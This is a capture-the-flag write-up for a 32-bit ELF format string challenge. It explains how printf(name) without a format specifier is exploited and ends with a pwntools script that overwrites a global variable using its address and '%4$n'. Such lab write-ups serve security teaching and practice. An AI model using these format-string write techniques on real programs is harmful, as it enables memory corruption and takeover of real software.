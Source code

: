 ![description](fms1.PNG)

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 32bit mode.
- when reading the source code, we can see that the  binary reads 60 bytes from stdin, then prints the buffer and checks if the target_variable's value is different from 0. If true, it'll print the flag.
- the vulnerability is in printf(name),it's written without a format specifier, so it's a Format String vulnerability as the name of the challenge indicated it.
# Exploitation
- we have to chain a payload that overwrites the target_variable
- find the address of target_variable
- find the offset to the the first 4 bytes to overwrite
## Finding the address of target_variable
target_variable is a global variable, and since it's not initialized , it's in the .bss section.
to find it's address, we can use objdump.
![objdump](objdump.PNG)

we can see that the address is : 0x0804c034
## Finding Offset
the format string vulnerability allows us to write into memory using the format specifier %n.
So we have to write the address of target_variable and use %n to change it's value, the problem is finding the location of target_value in the stack.
let's try giving AAAA%x %x %x %x %x %x %x %x as input to find the right offset.
![offset](offset.PNG)
the address is the 4th address in the stack, to reference directly the address, we can use %4$x
Now it's simple, we just write the address of the target_variable + %4$n
## Payload
```python
from pwn import *
p = process("./task8")
target_variable = 0x0804c034
payload = b""
payload += p32(target_variable)
payload += b"%4$n"
p.sendline(payload)
p.interactive()
